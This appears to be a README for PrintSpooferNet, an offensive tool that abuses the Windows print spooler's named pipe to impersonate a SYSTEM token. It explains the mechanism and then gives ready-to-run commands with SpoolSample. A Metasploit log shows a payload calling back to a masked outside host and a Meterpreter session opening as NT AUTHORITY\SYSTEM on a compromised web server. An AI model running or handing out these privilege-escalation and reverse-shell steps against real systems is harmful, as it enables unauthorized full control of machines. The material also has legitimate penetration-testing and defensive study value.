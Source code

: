 # PrintSpooferNet

## How does it work?

Communication to the spooler service is done through Print System Remote Protocol (MS-RPRN). MS-RPRN works through named pipes and the pipe name used by the print spooler service is \pipe\spoolss. Vulnerabilities exist in RpcOpenPrinter and RpcRemoteFindFirstPrinterChangeNotification functions. Specifically, RpcOpenPrinter allows the retrieval of a handle for the printer server, which is used as an argument to the second API - RpcRemoteFindFirstPrinterChangeNotification which monitors printer object changes and sends change notifications to print clients. This change notification requires the print spooler to access the print client. 

If we can create a pipe server that acts as a print client, we can obtain a SYSTEM token to which we can then impersonate.

## Exploit

In order to exploit, the account executing as needs to have SeImpersonatePrivilege.

Example:

```
# Create a pipe server named test and specify the command to execute
.\PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss "<COMMAND>"
# Use SpoolSample to target the pipe server and its named pipe
.\SpoolSample.exe <TARGET> <TARGET>/pipe/test
```

Example in Metasploit:

```
C:\Windows\Tasks>.\PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss "C:\Windows\Tasks\GiveMeShell.exe"
^Z
Background channel 4? [y/N]  y
meterpreter > shell
Process 1304 created.
Channel 6 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\Tasks>.\SpoolSample.exe web01 web01/pipe/test
.\SpoolSample.exe web01 web01/pipe/test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function

C:\Windows\Tasks>
[!] https://xxx.xxx.xxx.xxx:443 handling request from xxx.xxx.xxx.xxx; (UUID: qqhdhp6e) Without a database connected that payload UUID tracking will not work!
[*] https://xxx.xxx.xxx.xxx:443 handling request from xxx.xxx.xxx.xxx; (UUID: qqhdhp6e) Staging x64 payload (201820 bytes) ...
[!] https://xxx.xxx.xxx.xxx:443 handling request from xxx.xxx.xxx.xxx; (UUID: qqhdhp6e) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 3 opened (xxx.xxx.xxx.xxx:443 -> xxx.xxx.xxx.xxx:49767) at 2023-11-24 12:10:09 +0000

C:\Windows\Tasks>^Z
Background channel 6? [y/N]  y
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  2         meterpreter x64/windows  IIS APPPOOL\DefaultAppPool @ WEB01  xxx.xxx.xxx.xxx:443 -> xxx.xxx.xxx.xxx:49723 (xxx.xxx.xxx.xxx)
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WEB01         xxx.xxx.xxx.xxx:443 -> xxx.xxx.xxx.xxx:49767 (xxx.xxx.xxx.xxx)
```
